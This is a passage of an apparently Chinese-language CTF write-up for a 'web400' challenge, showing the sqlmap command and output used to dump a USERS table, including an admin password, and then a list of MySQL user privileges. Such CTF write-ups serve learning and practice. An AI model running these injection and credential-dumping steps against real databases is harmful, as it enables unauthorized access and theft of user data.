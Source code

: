 ```
[08:04:13] [INFO] fetching columns for table 'USERS' in database 'web400'
Database: web400
Table: USERS
[3 columns]
+----------+------+
| Column   | Type |
+----------+------+
| data     | text |
| password | text |
| username | text |
+----------+------+
```

```shell
sqlmap -r ./test.txt -p username -D web400 -T USERS -C "data,password,username" --dump
```

```
[08:04:48] [INFO] fetching entries of column(s) '`data`,password,username' for table 'USERS' in database 'web400'
Database: web400
Table: USERS
[1 entry]
+------------------+----------------------------+----------+
| data             | password                   | username |
+------------------+----------------------------+----------+
| This is a secret | zhegemimanigujicaibuchulai | admin    |
+------------------+----------------------------+----------+
```

这个时候就完成了第一步，也就是使用管理者账号登录

??? note "**查看权限**"
    发现aaactf这个账号的权限是FILE
    ```
    [08:43:11] [INFO] fetching database users privileges
    database management system users roles:
    [*] 'aaactf'@'localhost' [1]:
        role: FILE
    [*] 'debian-sys-maint'@'localhost' (administrator) [28]:
        role: ALTER
        role: ALTER ROUTINE
        role: CREATE
        role: CREATE ROUTINE
        role: CREATE TABLESPACE
        role: CREATE TEMPORARY TABLES
        role: CREATE USER
        role: CREATE VIEW
        role: DELETE
        role: DROP
        role: EVENT
        role: EXECUTE
        role: FILE
        role: INDEX
        role: INSERT
        role: LOCK TABLES
        role: PROCESS
        role: REFERENCES
        role: RELOAD
        role: REPLICATION CLIENT
        role: REPLICATION SLAVE
        role: SELECT
        role: SHOW DATABASES
        role: SHOW VIEW
        role: SHUTDOWN
        role: SUPER
